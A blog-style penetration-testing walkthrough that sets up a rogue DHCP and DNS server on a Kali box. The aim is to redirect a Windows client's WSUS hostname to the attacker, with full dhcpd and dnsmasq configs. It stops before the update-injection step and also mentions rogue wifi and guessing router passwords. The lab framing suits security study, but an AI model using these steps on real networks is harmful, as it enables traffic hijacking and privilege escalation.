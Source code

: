 ```yaml
---
layout: post
title: Exploiting WSUS misconfiguration to priviledge escalate on companies Windows computers
---
```


In this post we will explore a simulation of a possible attack that I have spotted in the wild. Given that by company policy I am not allowed to alter the original PCs, this will be a simulated environment using VMs recreated as loyally as possible to the original golden image.

# Pre-requisites
- Being able to control the network's DHCP
  - This can be achieved in multiple ways in reality, but the way I'll do it is by bridging network interfaces and disconnecting the "wifi"
  - An example of more "stealthy" attack would be to host a wifi network
- Having a DNS server (possibly on the same network)
- [pywsus](https://github.com/GoSecure/pywsus)
- [Sysinternals](https://learn.microsoft.com/en-us/sysinternals/) or any Microsoft signed executable

# Setup
To perform this attack I will use a Kali machine with the following packages installed from `apt`: `isc-dhcp-server` and `dnsmasq` (technically dnsmasq also has a DHCP server) and the git clone'd pywsus
The target machine is a Windows 10 machine. We normally are only given a AD User without access to the machine's administration.

We want the two machines to be in the same network, either by having one common "internet-less" connection or, say in a more realistic scenario, by being in the same wifi (and maybe guessing the often weak admin password for the router). Normally this attack is performed using [bettercap](https://github.com/bettercap/bettercap) but in this case I decided to go for a different route as I am not sure how easy it is to get into the same subnet in the company environment (and I didn't want to try and upset the IT departent (again)).

## dhcp
We will configure the attack box on IP `192.168.222.1` as the gateway, dhcp server and dns server (and later on the wsus server too).
The subnet will be `192.168.222.0/24` and we will let the Windows client pick any IP

Edit `/etc/dhcp/dhcpd.conf`:

```
subnet 192.168.222.0 netmask 255.255.255.0 {
  interface eth1;
  range 192.168.222.10 192.168.222.50;
  option subnet-mask 255.255.255.0;
  option routers 192.168.222.1;
  option domain-name-servers 192.168.222.1, 192.168.222.10;
  option domain-name "swag.com";
}
```


Edit `/etc/default/isc-dhcp-server`:

```
# Edit with the interface that shares the connection with the Windows machine
INTERFACESv4="eth1"
INTERFACESv6=""
```

```
sudo ifconfig eth1 192.168.222.1/24
sudo systemctl restart isc-dhcp-server.service
```

## dns
We modify `/etc/dnsmasq.conf` as follows:

```
domain-needed
listen-address=127.0.0.1
listen-address=192.168.222.1
bind-interfaces

address=/wsusserver.domain.internal/192.168.222.1
```


```
sudo ifconfig eth1 192.168.222.1/24
sudo systemctl restart dnsmasq
```

----

Now we verify that the Windows box, once connected to the same network (might require to disable and re-enable the interface) automatically gets an IP address and sets the DNS to our attacker box. This is important because changing the DNS settings or any adapter's settings requires admin privileges.


